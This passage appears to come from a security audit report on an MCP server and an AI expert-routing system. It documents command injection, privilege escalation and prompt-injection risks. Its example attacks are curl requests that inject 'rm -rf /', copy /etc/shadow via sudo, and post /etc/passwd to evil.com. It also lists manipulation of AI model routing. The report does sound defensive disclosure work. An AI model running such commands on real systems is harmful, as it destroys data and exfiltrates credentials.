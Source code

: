 ### FINDING 3: COMMAND INJECTION VULNERABILITIES
**Risk Level**: 🔴 CRITICAL  
**Impact**: Remote Code Execution  
**CVSS Score**: 9.8  

#### BashGod MCP Server Analysis
```yaml
Command_Injection_Risks:
  Direct_Shell_Execution:
    Method: "asyncio.create_subprocess_shell()"
    Risk: "Unescaped parameter injection"
    Attack_Vector: "Malicious command injection via API parameters"
    
  Privilege_Escalation:
    Sudo_Commands: 39
    Kernel_Access: "Direct /proc and /sys manipulation"
    Capabilities: "Unrestricted system administration"
    
  Input_Validation_Bypass:
    Pattern_Evasion: "Regex patterns can be bypassed"
    Context_Blind: "No chain interaction analysis"
    Sudo_Handling: "Removes sudo before validation"
```

#### Example Attack Vectors
```bash
# EXAMPLE ATTACK 1: Command Injection
curl -X POST /api/mcp/bashgod/execute \
  -d '{"command": "ls", "params": [".; rm -rf / #"]}'

# EXAMPLE ATTACK 2: Privilege Escalation  
curl -X POST /api/mcp/bashgod/execute \
  -d '{"command": "sudo", "params": ["cat /etc/shadow > /tmp/pwns"]}'

# EXAMPLE ATTACK 3: Data Exfiltration
curl -X POST /api/mcp/bashgod/execute \
  -d '{"command": "curl", "params": ["-X POST -d @/etc/passwd evil.com"]}'
```

### FINDING 4: AI/ML SECURITY VULNERABILITIES
**Risk Level**: 🟡 HIGH  
**Impact**: Model Manipulation & Data Exposure  
**CVSS Score**: 7.8  

#### Circle of Experts Vulnerabilities
```yaml
AI_Security_Risks:
  Prompt_Injection:
    Detection_Rate: "Limited defenses"
    Attack_Success: "88% for policy puppetry attacks"
    Impact: "Model behavior manipulation"
    
  Data_Leakage:
    External_APIs: "Sensitive data to third-party AI services"
    Logging: "Potential sensitive data in logs"
    Response_Storage: "Unencrypted AI responses"
    
  Model_Selection_Manipulation:
    Cost_Attacks: "Route expensive model calls"
    Service_Abuse: "Exhaust API quotas"
    Performance_Degradation: "Target slow models"
```
